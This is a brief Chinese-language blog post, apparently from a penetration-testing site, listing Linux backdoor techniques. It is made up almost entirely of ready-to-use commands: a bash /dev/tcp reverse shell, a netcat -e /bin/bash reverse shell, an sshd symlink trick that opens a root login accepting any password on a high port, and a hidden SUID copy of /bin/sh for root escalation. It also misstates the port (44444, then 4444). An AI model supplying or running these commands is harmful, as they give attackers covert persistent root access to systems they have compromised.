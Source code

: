 ```yaml
---
title: "Linux 的几种后门"
date: 2018-01-26T00:00:00+08:00
draft: false
tags: ['linux']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


Linux 的 bash nc ssh SUID 后门

<!--more-->

### bash

`bash -i >& /dev/tcp/ip/port 0>&1`

### nc

`nc ip port -e /bin/bash`

nc 可以从源码编译.

`./configure --prefix=/tmp/nc && make && make install`

### ssh 后门

`ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=44444;`

连接 4444 用 root/bin/ftp/mail 当用户名 密码随意.

### SUID 后门

执行用户会获得该文件所有者的权限.

`cp /bin/sh /tmp/.shell && chmod 4755 /tmp/.shell`

执行 /tmp/.shell -p 即可获得 root 权限.